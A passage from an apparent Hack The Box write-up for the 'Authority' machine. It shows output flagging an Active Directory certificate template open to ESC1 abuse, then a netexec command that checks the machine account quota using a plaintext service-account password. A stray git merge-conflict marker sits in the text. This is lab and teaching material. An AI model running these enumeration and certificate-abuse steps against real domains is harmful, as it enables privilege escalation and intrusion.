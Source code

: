 ```
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication

```
It identifies a template `CorpVPN` and this is vulnerable to `ESC1`.

According to this [post](https://www.blackhillsinfosec.com/abusing-active-directory-certificate-services-part-one/). Templates vulnerable to `ESC1` must have the following configurations:
* Client Authentication: True
* Enabled: True
* Enrollee Supplies Subject: True
* Requires Management Approval: False
* Authorized Signatures Required: 0

This conditions matches the output that comes out of authority but will only one difference. In this, case `Domain Computers` can enroll with this templates, not `Domain Users`.

### Creating Computer Account
The settings that allows a user to add a computer to domain is the
ms-ds-machineaccountquota. We can use `netexec` to view the machinequota. 

<<<<<<< HEAD
```
=======
```bash
>>>>>>> d0813a4 (Updated posts)
$netexec ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.222    636    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! 
MAQ         10.10.11.222    389    AUTHORITY        [*] Getting the MachineAccountQuota
MAQ         10.10.11.222    389    AUTHORITY        MachineAccountQuota: 10

```
This means we can add upto 10 computers. We can add computers using `impacket-addcomputer`.
